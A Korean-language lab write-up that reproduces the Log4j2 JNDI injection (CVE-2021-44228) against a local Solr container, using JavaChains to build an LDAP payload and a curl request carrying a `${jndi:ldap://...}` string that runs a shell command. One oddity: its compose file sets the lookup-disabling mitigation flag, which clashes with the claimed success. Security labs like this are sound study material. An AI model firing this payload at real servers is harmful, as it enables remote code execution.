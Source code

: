 # Apache Log4j2 JNDI 인젝션 취약점 (CVE-2021-44228)

Apache Log4j 2는 Log4j 1.x의 상위 버전으로, Logback에서 사용 가능한 많은 개선 사항을 제공하면서 Logback의 구조적 문제를 해결했습니다.

2021년 12월, Apache Log4j2에서 0-day 취약점이 발견되었습니다. Log4j의 JNDI 지원이 이름 해석을 제한하지 않았기 때문에 `rmi:` 및 `ldap:` 같은 프로토콜이 안전하지 않거나 원격 코드 실행을 허용할 수 있습니다.

## 취약점 환경 구성

### 1. JavaChains 설치
PoC를 수행하기 위해 JavaChains를 설치합니다. JavaChains는 JNDI 페이로드를 생성하고 LDAP 서버를 실행하는데 사용됩니다. 수동으로 설치하는 대신, docker-compose.yml 파일에 서비스를 추가하여 자동화된 설치를 구성했습니다.

```bash
# JavaChains 디렉토리 생성
mkdir -p CVE-2021-44228/java-chains

# Dockerfile 생성
cat > CVE-2021-44228/java-chains/Dockerfile << 'EOF'
FROM openjdk:8-jdk
WORKDIR /app
COPY target/java-chains-1.0-SNAPSHOT.jar app.jar
EXPOSE 8011
ENTRYPOINT ["java", "-jar", "app.jar"]
EOF
```

### 2. docker-compose.yml 수정
기존 docker-compose.yml 파일에 JavaChains 서비스를 추가합니다:

```yaml
version: '3'
services:
  solr:
    image: vulhub/solr:8.11.1
    ports:
      - "8983:8983"
    environment:
      - SOLR_OPTS=-Dlog4j2.formatMsgNoLookups=true
    volumes:
      - ./solr:/var/solr
    command:
      - solr-precreate
      - test
    restart: always

  java-chains:
    build: ./java-chains
    ports:
      - "8011:8011"
    restart: always
```

### 3. 환경 실행
다음 명령어로 환경을 실행합니다:

```bash
docker-compose up -d
```
JavaChains 와 vulhub/solr:8.11.1 도커 ps 확인
docker ps
![image](https://github.com/user-attachments/assets/a54ee6a0-a5da-4607-a6cf-1587055f4523)

JavaChains를 접속해보면 패스워드를 모릅니다.
![image](https://github.com/user-attachments/assets/ee97587a-7812-4fe8-ab0a-956ddfc4426d)


패스워드를 찾기 위해 
### 4. JavaChains 비밀번호 확인
JavaChains 웹 인터페이스에 접속하기 위한 비밀번호는 다음 명령어로 확인할 수 있습니다:

```bash
docker logs java-chains | grep password
```
![자바체인 로그](https://github.com/user-attachments/assets/65a2a400-e53a-430e-9e53-6a213d18841d)

## 취약점 공격

1. JavaChains 웹 인터페이스 접속:
   - 브라우저에서 http://localhost:8011 접속
   - 위에서 확인한 비밀번호 입력
   - 명령어 입력 (예: `touch /tmp/success`)
   - ![image](https://github.com/user-attachments/assets/24105608-4158-453b-bd9f-d1d2bd4b20e0)

   - "Generate" 버튼 클릭하여 LDAP URL 생성
   - ![java-chains 접속6](https://github.com/user-attachments/assets/d2c5bb0b-e348-4059-8a29-b8bd74f30468)


2. 생성된 LDAP URL을 사용하여 Solr에 페이로드 전송:
```bash
curl "http://localhost:8983/solr/admin/cores?action=%24%7Bjndi%3Aldap%3A%2F%2F127.0.0.1%3A50389%2F[생성된_ID]%7D"
```
![image](https://github.com/user-attachments/assets/7623333a-9a13-4fc6-8932-8fbc68eb4971)

3. 명령어 실행 확인:
```bash
docker exec -it cve-2021-44228-solr-1 bash
ls -l /tmp/success
```
![image](https://github.com/user-attachments/assets/eacafb91-137f-4404-8ee3-c220cf4ca368)

## 주의사항

1. Java Chains와 Solr 컨테이너가 같은 Docker 네트워크에 있어야 합니다.
2. JDK 버전이 8u191 미만인 경우에만 `rmi://` 또는 `ldap://` 프로토콜을 사용할 수 있습니다.
3. 취약점 공격 시 반드시 테스트 환경에서만 실행해야 합니다.

## 참고 자료

- https://logging.apache.org/log4j/2.x/security.html
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://xz.aliyun.com/t/10649 
